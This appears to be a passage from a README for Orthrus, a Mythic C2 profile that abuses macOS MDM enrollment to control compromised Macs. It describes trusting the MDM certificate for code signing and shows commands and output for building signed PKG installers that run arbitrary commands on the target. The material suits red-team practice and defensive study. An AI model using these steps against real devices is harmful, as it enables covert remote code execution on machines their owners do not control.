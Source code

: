 Restart the container.

```
./mythic-cli c2 start mdm
```

and you're good to go.

## Notable Features
- No custom code introduced to the device.
- No beaconing behaviour, Orthrus will check in to Mythic when the operator tells it to using the `force_callback` command.
- SSL certificate of the MDM server trusted for code signing upon installation.
- Install PKG installers or Profiles.

## Executing Packages

### Signing

`mdmclient` will only execute packages that have been signed. If you do not use a signed package, it will silently fail. Usefully, the compromised device will install the TLS certificate of the MDM server (specified in the config) as a CA trusted for code sigining.

First, on an attacker box. Build a PFX file using the certificate and key from the MDM server.

```
openssl pkcs12 -export -out mdm.pfx -inkey mdm.key -in mdm.crt
```

Open the resulting pfx file to install it into the keychain.

The certificate can now be used as a signing identity. 


### pkg-cmd-helper

To automate the process of creating a signed package. I've put together a rough bash script to build packages that execute bash command, and subsequently sign them with an identity - [pkg-cmd-helper.sh](https://gist.github.com/rookuu/49ea14a50854542ca7f5cde70962e502).

```
➜  ./pkg-cmd-helper.sh -h
Command line helper to generate pkg files that execute commands.
Author: @rookuu

Syntax: gen.sh -i com.malicious.pkg -o installme.pkg [-s 'My Signing Identity'] command
options:
-h     Print this Help.
-i     Identifier for the package.
-o     File name for the output package.
-s     (optional) Identity to use when signing the package.

➜  ./pkg-cmd-helper.sh -i com.rookuu.pkg -o example.pkg -s 192.168.0.5 mkdir /tmp/hacked
Building in /var/folders/fc/lc78954d3mnfvn4wbz8_20nc0000gn/T/tmp.mmsY0R6i
pkgbuild: Adding top-level preinstall script
pkgbuild: Wrote package to /var/folders/fc/lc78954d3mnfvn4wbz8_20nc0000gn/T/tmp.mmsY0R6i/temp.pkg
productbuild: Wrote product to /var/folders/fc/lc78954d3mnfvn4wbz8_20nc0000gn/T/tmp.mmsY0R6i/temp_dist.pkg
productsign: signing product with identity "192.168.0.5" from keychain /Library/Keychains/System.keychain
productsign: Wrote signed product archive to /var/folders/fc/lc78954d3mnfvn4wbz8_20nc0000gn/T/tmp.mmsY0R6i/temp_dist_signed.pkg
Done, see: example.pkg
```
